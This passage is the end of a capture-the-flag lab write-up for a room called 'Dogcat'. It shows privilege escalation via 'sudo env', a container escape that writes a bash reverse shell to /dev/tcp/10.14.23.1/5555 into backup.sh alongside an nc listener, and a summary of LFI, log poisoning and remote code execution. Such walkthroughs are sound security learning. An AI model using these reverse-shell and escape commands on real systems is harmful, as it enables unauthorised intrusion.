 ```bash
sudo env /bin/shpwd
```

Running the find command as above or going straight to /root directory we can find flag 3

IMAGE FLAG 3

## 4.2 Break out of the Docker Container

After much trial and searching through directories I came across in /opt a file called backup.sh which appears to be a file that is called from outside the docker and is worth trying to leverage as a way to break out of the container.

Ensuring we have another listener set up on our machine
```bash
nc -nvlp 5555
```

We can insert  our shell into backup.sh and wait for it to be called
```bash 
echo "#!/bin/bash" > backup.sh
echo "/bin/bash -c 'bash -i >& /dev/tcp/10.14.23.1/5555 0>&1'" >> backup.sh
```

In my case in less than a minute my new shell was created and flag4 was waiting for collection in the current directory.

![[../Z - Walkthrough Images/Pasted image 20220927091441.png]]

Thanks for reading my writeup of the Dogcat room.

# TLDR
- Scan machine and discover website
- Use LFI and base64 to get flag 1
- Use LFI to access log file
- Use curl to poison log allowing RCE
- Use RCE to upload reverse shell and execute it
- Find flag 2
- Elevate to root shell using sudo env from GTFO bins
- Find flag 3 in /root
- Break out of container by inserting a call to create a shell back to our machine in backup.sh
- Find flag 4

